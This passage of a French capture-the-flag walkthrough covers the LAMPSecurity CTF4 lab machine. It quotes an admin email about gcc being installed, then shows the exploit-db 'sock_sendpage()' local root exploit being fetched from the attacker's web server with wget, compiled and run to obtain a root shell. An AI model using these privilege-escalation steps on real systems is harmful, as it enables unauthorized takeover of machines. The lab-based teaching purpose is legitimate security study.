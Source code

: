Troisième mail : pour mettre en place [la sonde HIDS](https://fr.wikipedia.org/wiki/Syst%C3%A8me_de_d%C3%A9tection_d%27intrusion) [OSSEC](https://github.com/ossec/ossec-hids), Andrew Chen a également dû installer [gcc](https://gcc.gnu.org/) et [binutils](https://www.gnu.org/software/binutils/). Un compilateur est donc installé sur le serveur, c'est parfait !

```
Date: Mon, 9 Mar 2009 11:47:41 -0400 (EDT)
Subject: OSSEC
From: "Andrew Chen" <achen@ctf4.sas.upenn.edu>
To: admins@ctf4.sas.upenn.edu

I'm installing OSSEC v2 on the server - so I also had to install gcc and
binutils.  Just wanted to let you know.

-- 
Andrew Chen
Unix Administrator
Ehks Data Research Center
```

### Bonus n°4 : Utilisation de l'exploit 'sock_sendpage()' Ring0 Privilege Escalation

Hop, un petit serveur Web pour mettre à disposition de la VM LAMPSecurity [cet exploit](https://www.exploit-db.com/exploits/9479/) intitulé _'sock_sendpage()' Ring0 Privilege Escalation_, disponible également sur Kali. Pendant ce temps, le _local root exploit_ est compilé avec gcc puis exécuté, et tadaaam... root !

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/local/9479.c 9479.c
root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Une conclusion idéale pour ce _walkthrough_ sur le quatrième épisode de la saga LAMPSecurity.

```console
[sorzek@ctf4 ~]$ wget http://192.168.15.130:8000/9479.c -q
[sorzek@ctf4 ~]$ gcc 9479.c -o 9479
9479.c:130:28: warning: no newline at end of file
[sorzek@ctf4 ~]$ ./9479
sh-3.1# id
uid=0(root) gid=0(root) groups=100(users),504(sorzek) context=user_u:system_r:unconfined_t
```
